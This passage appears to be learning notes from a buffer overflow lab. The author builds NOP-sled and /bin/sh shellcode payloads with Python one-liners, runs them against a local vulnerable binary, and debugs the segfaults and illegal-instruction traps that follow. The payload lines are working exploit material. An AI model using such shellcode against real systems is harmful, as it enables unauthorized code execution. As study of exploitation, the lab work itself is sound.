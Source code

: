 ```sh
                         | padding    |  |
                         | ret addr   |--'
```

- So, it looks something like this:


```sh
                                             .-----------------------.
                                             |                       | 
                                             |                       v
   ./vulnerable 5 <--------padding-----><address-of-nopsled><padding><nop-sled><shell code>
```

- However I cant seem to find correct number of NOPs that I need to add:

```sh
$ ./bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\x90'*0x10+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
-bash: warning: command substitution: ignored null byte in input
Segmentation fault (core dumped)
$ ./bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\x90'*0x20+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
-bash: warning: command substitution: ignored null byte in input
Segmentation fault (core dumped)
$ ./bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\x90'*0x30+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
-bash: warning: command substitution: ignored null byte in input
Segmentation fault (core dumped)
$ ./bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\x90'*0x40+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
-bash: warning: command substitution: ignored null byte in input
Segmentation fault (core dumped)
$ ./bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\x90'*0x50+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
-bash: warning: command substitution: ignored null byte in input
Segmentation fault (core dumped)
$ ./bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\x90'*0x60+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
-bash: warning: command substitution: ignored null byte in input
Segmentation fault (core dumped)
```

- Trying the same in Ubuntu virtual machine (disabled ASLR) results in:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin$ ./bin/vulnerable 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\xac\xce\xff\xff'+b'A'*4+b'\x90'*0x60+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
-bash: warning: command substitution: ignored null byte in input
Illegal instruction (core dumped)
```

- Find out what this means:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin$ sudo dmesg | tail
[ 1872.554529] traps: vulnerable[4445] trap invalid opcode ip:ffffceb6 sp:ffffceb8 error:0
[ 1890.040692] traps: vulnerable[4460] trap invalid opcode ip:ffffceb6 sp:ffffceb8 error:0
```
